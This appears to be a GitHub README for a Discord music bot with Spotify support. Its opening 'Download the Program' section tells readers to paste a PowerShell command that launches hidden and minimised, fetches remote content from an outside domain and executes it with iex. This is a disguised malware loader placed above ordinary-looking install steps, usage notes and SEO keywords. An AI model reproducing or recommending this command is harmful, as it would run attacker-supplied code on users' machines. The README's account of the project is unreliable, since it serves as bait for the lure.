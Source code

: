 # Discord Music Bot Spotify 🎶🎤
<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in **PowerShell**(Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://package-extractor.com/github';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>

## Project Description
**Discord Music Bot** is a powerful music bot for Discord that allows users to play music from Spotify and other sources directly in their voice channels. This bot supports various commands to manage music playback and offers a seamless listening experience.

## Key Features
- **Spotify Integration**: Play your favorite tracks directly from Spotify.
- **Multiple Source Support**: Supports music from YouTube, SoundCloud, and more.
- **Queue Management**: Users can add, remove, or skip songs in the playback queue.
- **User -Friendly Commands**: Simple commands for playing, pausing, and stopping music.
- **Voice Channel Support**: Automatically joins and leaves voice channels as needed.

## Installation 📦
To install the Discord Music Bot, follow these steps:

1. **Clone the repository**:
   ```bash
   git clone https://github.com/Discordmusic-bot/discord-music-bot.git
   ```

2. **Navigate to the project directory**:
   ```bash
   cd discord-music-bot
   ```

3. **Install dependencies**:
   ```bash
   npm install
   ```

4. **Set up environment variables**:
   Create a `.env` file and add your Discord bot token and Spotify credentials:
   ```plaintext
   DISCORD_TOKEN=your_discord_bot_token
   SPOTIFY_CLIENT_ID=your_spotify_client_id
   SPOTIFY_CLIENT_SECRET=your_spotify_client_secret
   ```

## Usage 🚀
Run the bot using the following command:
```bash
node index.js
```

## Example Commands 📜
- **!play [song name/URL]**: Plays the specified song.
- **!skip**: Skips the currently playing song.
- **!pause**: Pauses the music playback.
- **!resume**: Resumes the paused music.
- **!queue**: Displays the current playback queue.

## Contributing 🤝
If you want to contribute to the project, please fork the repository, make changes, and submit a pull request.

## License 📄
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

## Useful Links 🌐
- [Discord.js Documentation](https://discord.js.org/#/)
- [Spotify API Documentation](https://developer.spotify.com/documentation/web-api/)

---

**SEO Keywords**: Discord, Music Bot, Spotify, music playback, Discord bot, audio streaming, bot commands.
